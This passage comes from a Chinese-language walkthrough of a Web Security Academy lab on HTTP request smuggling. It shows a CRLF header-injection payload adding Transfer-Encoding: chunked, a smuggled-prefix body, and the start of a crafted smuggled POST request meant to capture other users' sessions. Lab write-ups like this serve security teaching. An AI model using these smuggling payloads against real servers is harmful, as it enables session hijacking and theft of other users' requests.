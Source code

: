 ```c
bar\r\n
Transfer-Encoding: chunked
```

![img](assets/1706773318-4a6dbed49c51098bf7a5683caefa8aed.png)

Body部分如下所示：

```c
0
SMUGGLED
```

随后我们可以看到发送的每第二个请求会收到一个404响应，由此可以确认我们已经让后端将后续请求附加到走私的前缀上

![img](assets/1706773318-242a19722bef32556f70c11d7599e990.png)

Step 3：随后构造如下请求数据包

```plain
0
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=YOUR-SESSION-COOKIE
Content-Length: 800
search=x
```
